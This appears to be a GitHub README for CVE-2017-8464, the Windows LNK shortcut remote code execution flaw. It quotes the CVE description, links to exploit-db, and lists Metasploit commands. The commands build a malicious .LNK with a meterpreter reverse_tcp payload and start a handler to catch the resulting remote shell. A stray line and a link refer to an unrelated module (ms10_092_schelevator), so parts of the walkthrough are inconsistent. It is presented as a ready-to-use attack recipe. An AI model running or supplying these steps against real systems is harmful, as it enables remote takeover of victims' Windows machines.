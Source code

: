 # CVE-2017-8464
```
Windows Shell in Microsoft Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8, Windows 8.1, 
Windows Server 2012 Gold and R2, Windows RT 8.1, Windows 10 Gold, 1511, 1607, 1703, and Windows Server 2016 
allows local users or remote attackers to execute arbitrary code via a crafted .LNK file, which is not properly handled 
during icon display in Windows Explorer or any other application that parses the icon of the shortcut. 
aka "LNK Remote Code Execution Vulnerability."
```

Vulnerability reference:
 * [CVE-2017-8464](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8464)
 * [exp-db](https://www.exploit-db.com/exploits/42382/)


## load the module within the Metasploit
[msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_092_schelevator)
```
msf > use exploit/windows/fileformat/cve_2017_8464_lnk_rce
msf exploit(cve_2017_8464_lnk_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(cve_2017_8464_lnk_rce) > set lhost <local-ip>
msf exploit(cve_2017_8464_lnk_rce) > set lport 8988
msf exploit(cve_2017_8464_lnk_rce) > run
msf exploit(ms10_092_schelevator) > exploit

msf exploit(cve_2017_8464_lnk_rce) > use exploit/multi/handler 
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost <local-ip>
msf exploit(handler) > set lport 8988
msf exploit(handler) > run
```